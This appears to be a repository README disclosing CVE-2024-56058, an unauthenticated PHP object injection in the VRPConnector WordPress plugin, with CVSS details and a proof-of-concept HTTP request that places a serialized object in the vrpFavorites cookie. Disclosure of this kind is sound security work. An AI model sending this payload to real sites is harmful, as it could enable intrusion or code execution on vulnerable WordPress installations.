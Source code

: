 # CVE-2024-56058
VRPConnector <= 2.0.1 - Unauthenticated PHP Object Injection

# Description

The VRPConnector plugin for WordPress is vulnerable to PHP Object Injection in versions up to, and including, 2.0.1 via deserialization of untrusted input. This makes it possible for unauthenticated attackers to inject a PHP Object. No known POP chain is present in the vulnerable software. If a POP chain is present via an additional plugin or theme installed on the target system, it could allow the attacker to delete arbitrary files, retrieve sensitive data, or execute code.

## Details

- **Type**: plugin
- **Slug**: vrpconnector
- **Affected Version**: 2.0.1
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-56058
- **Status**: Active

POC
---
```
GET / HTTP/1.1
Host: kubernetes.docker.internal:8929
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: vrpFavorites=O:20:"PHP_Object_Injection":0:{}
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

